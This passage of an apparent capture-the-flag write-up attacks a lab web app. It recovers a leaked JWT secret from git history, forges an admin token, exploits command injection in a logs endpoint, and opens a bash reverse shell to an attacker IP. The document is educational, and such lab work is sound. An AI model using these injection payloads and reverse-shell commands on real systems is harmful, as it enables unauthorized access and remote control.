 This old commit might have the `TOKEN_SECRET`, which would enable us to sign a modified JWT and change our username to `theadmin`.

Try `git checkout de0a46b5107a2f4d26e348303e76d85ae4870934` (which is the commit right before the `.env` file was removed).

Now, the `.env` file contains the `TOKEN_SECRET`:

```
DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
```

So, now we can sign the JWT with the `name` field changed to `theadmin`.

### Foothold

We can use [JWT.io](https://jwt.io) to get a new token: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjBkZDU4NzIwMWExZDA0NWQyMGU5YTQiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRhbkBnb29nbGUuY29tIiwiaWF0IjoxNjQ1MDczODMxfQ.OcsMCcyhgjPB36m6enq6lSGzbRD82z9Hn5OdrBFJ8Rc`.

Now, let's see if we are admin with `curl http://10.10.11.120/api/priv --header "auth-token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjBkZDU4NzIwMWExZDA0NWQyMGU5YTQiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRhbkBnb29nbGUuY29tIiwiaWF0IjoxNjQ1MDczODMxfQ.OcsMCcyhgjPB36m6enq6lSGzbRD82z9Hn5OdrBFJ8Rc"`, which returns `{"creds":{"role":"admin","username":"theadmin","desc":"welcome back admin"}}`. So, we are now admin.

Let's try out the command injection we found with the `/api/logs` endpoint: `curl --header "auth-token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjBkZDU4NzIwMWExZDA0NWQyMGU5YTQiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRhbkBnb29nbGUuY29tIiwiaWF0IjoxNjQ1MDczODMxfQ.OcsMCcyhgjPB36m6enq6lSGzbRD82z9Hn5OdrBFJ8Rc" "http://10.10.11.120/api/logs?file=;whoami"` returns `"80bf34c fixed typos 🎉\n0c75212 now we can view logs from server 😃\nab3e953 Added the codes\ndasith\n"`.

The `dasith` is the output of our `whoami` command, so it looks like everything worked as expected.

We can get `user.txt` flag with `curl --header "auth-token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjBkZDU4NzIwMWExZDA0NWQyMGU5YTQiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRhbkBnb29nbGUuY29tIiwiaWF0IjoxNjQ1MDczODMxfQ.OcsMCcyhgjPB36m6enq6lSGzbRD82z9Hn5OdrBFJ8Rc" "http://10.10.11.120/api/logs?file=.;cat%20../user.txt"` (the `%20` is a URL encoded space).

Let's get a reverse shell. We can use the standard bash reverse shell: `bash -c 'bash -i >& /dev/tcp/10.10.14.55/48253 0>&1'`. Let's also organize our `curl` command using `--data-urlencode`, which will automatically take care of the spaces in our payload. We must also specify `-G` so that `curl` knows to make a GET request. We can start a listener with `pwncat-cs -lp 48253`. Then we can run the final exploit command, which is is `curl -G --header "auth-token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjBkZDU4NzIwMWExZDA0NWQyMGU5YTQiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRhbkBnb29nbGUuY29tIiwiaWF0IjoxNjQ1MDczODMxfQ.OcsMCcyhgjPB36m6enq6lSGzbRD82z9Hn5OdrBFJ8Rc" "http://10.10.11.120/api/logs" --data-urlencode "file=;bash -c 'bash -i >& /dev/tcp/10.10.14.55/48253 0>&1'"`.

This command pops the shell and the command will eventually return this output `{"killed":false,"code":1,"signal":null,"cmd":"git log --oneline ;bash -c 'bash -i >& /dev/tcp/10.10.14.55/48253 0>&1'"}`, but the reverse shell will stay active.

## Lateral Movement
